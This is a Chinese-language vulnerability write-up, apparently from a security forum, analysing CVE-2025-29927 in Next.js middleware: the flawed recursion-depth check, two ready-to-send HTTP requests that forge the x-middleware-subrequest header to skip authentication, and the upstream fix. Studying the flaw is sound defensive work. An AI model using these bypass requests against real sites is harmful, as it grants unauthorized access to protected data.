







# Next.js中间件权限绕过漏洞分析（CVE-2025-29927）-先知社区

> **来源**: https://xz.aliyun.com/news/17403  
> **文章ID**: 17403

---

# Next.js中间件权限绕过漏洞分析（CVE-2025-29927）

本文代码版本为next.js-15.2.2

## 一、漏洞概述

**CVE-2025-29927**是Next.js框架中存在的一个高危中间件逻辑绕过漏洞，允许攻击者通过构造特定HTTP请求头，绕过中间件的安全控制逻辑（如身份验证、路径重写、CSP防护等）。该漏洞CVSS评分**9.1（Critical）**，可导致未授权访问、数据泄露及拒绝服务攻击。

## 二、漏洞分析

### 1. 漏洞背景

Next.js中间件（Middleware）允许开发者在请求到达目标路由前执行代码，典型应用场景包括：

* **身份验证**：检查用户会话Cookie，拦截未授权请求。
* **路径重写**：动态修改请求路径（如多语言路由`/en/home` → `/home`）。
* **安全头设置**：添加CSP、CORS等安全响应头。

中间件的安全性直接决定了应用的核心防护能力。若中间件逻辑被绕过，攻击者可直接访问后端业务逻辑。

### 2. 漏洞核心机制

用户发出请求在middleware中会请求身份验证接口，而请求身份验证接口也会经过middleware，所以为了解决请求身份验证接口这种逻辑，Next.js通过`x-middleware-subrequest`头标识内部递归请求。

每次递归请求都会向该头添加一次`middleware`，如果递归请求达到五次，就会返回一个带有 `'x-middleware-next': '1'` 的响应，表示忽略中间件的所有逻辑（包括鉴权检查）。



packages extsrcserverwebsandboxsandbox.ts

### 3. 关键代码

简化代码：

* `params.name`：中间件路径标识（如 `src/middleware` 或 `middleware`）。
* `subrequests`：`x-middleware-subrequest` 头按 `:` 分割后的数组。
* `depth`：统计 `subrequests` 中与 `params.name` 匹配的次数。

```
const subreq = params.request.headers[`x-middleware-subrequest`]
const subrequests = subreq.split(':') : []
const MAX_RECURSION_DEPTH = 5
const depth = subrequests.reduce(
    (acc, curr) => (curr === params.name ? acc + 1 : acc),
    0
)

if (depth >= MAX_RECURSION_DEPTH) {
  return {
    response: new runtime.context.Response(null, {
      headers: {'x-middleware-next': '1',},}),}
  }
```

**漏洞成因**：

* **路径暴露**：中间件的逻辑路径（`middlewareInfo.name`）可被攻击者推测。
* **校验宽松**：未对**外部请求**的`x-middleware-subrequest`头进行过滤，允许伪造内部请求标识。

### 4. Payload 构造

**确定中间件路径标识**

`params.name` 是中间件模块在 Next.js 构建过程中生成的逻辑路径标识，其值由`.next/server/middleware-build-manifest.json`文件决定。



**构造绕过请求头**

`middleware.ts`在根目录 → `middleware`

```
GET /dashboard HTTP/1.1
Host: localdomain:3000
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

```

`middleware.ts`在 `src` 目录 → `src/middleware`

```
GET /dashboard HTTP/1.1
Host: localdomain:3000
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware

```

## 三、漏洞复现

环境地址：[lem0n817/CVE-2025-29927 (github.com)](https://github.com/lem0n817/CVE-2025-29927)

### middleware





### src/middleware





## 四、漏洞修复

[Comparing v15.2.2...v15.2.3 · vercel/next.js (github.com)](https://github.com/vercel/next.js/compare/v15.2.2...v15.2.3)

这里是对多处进行了修改，挑选最关键的一处进行分析：



通过动态令牌验证（`x-middleware-subrequest-id`）和加密符号存储（`Symbol.for`）严格区分内外请求，非法伪造的`x-middleware-subrequest`头会被自动删除，确保中间件安全逻辑不被绕过。

```
// If this request didn't origin from this session we filter
// out the "x-middleware-subrequest" header so we don't skip
// middleware incorrectly
if (
  header === 'x-middleware-subrequest' &&
  headers['x-middleware-subrequest-id'] !==
    (globalThis as any)[Symbol.for('@next/middleware-subrequest-id')]
) {
  delete headers['x-middleware-subrequest']
}
```

## 五、参考

[代码审计-知识星球 (zsxq.com)](https://wx.zsxq.com/group/2212251881/topic/1524224154842282)

[Next.js 和损坏的中间件：授权工件 - zhero\_web\_security](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)

[CVE 2025 29927 Nextjs Auth Bypass - chestnut's blog](https://www.ch35tnut.com/zh-cn/vulnerability/cve-2025-29927-nextjs-auth-bypass/)
